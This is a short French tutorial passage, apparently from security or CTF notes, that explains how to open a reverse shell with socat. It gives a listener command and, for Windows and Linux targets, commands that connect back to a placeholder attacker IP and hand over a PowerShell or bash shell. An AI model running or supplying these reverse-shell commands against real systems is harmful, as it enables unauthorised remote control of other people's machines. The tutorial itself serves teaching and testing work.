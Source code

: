 
## __Reverse shell__

Pour setup un reverse shell avec socat c'est légèrement plus compliqué qu'avec netcat.

#### 1- Listener

Sur notre machine il faut effectuer la commande :

```shell
user@ip:~$ socat TCP-L:1345 -
```

Cette commande est équivalente à faire **`nc -vnlp 1234`**.

#### 2- Connection

Sur la machine cible, on va effectuer la commande :

1) Sur une machine windows

```shell
PS C:\Users\user> socat TCP:<NOTRE-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes
```

2) Sur une machine linux

```shell
user@raspberrypi: ~$ socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"
```




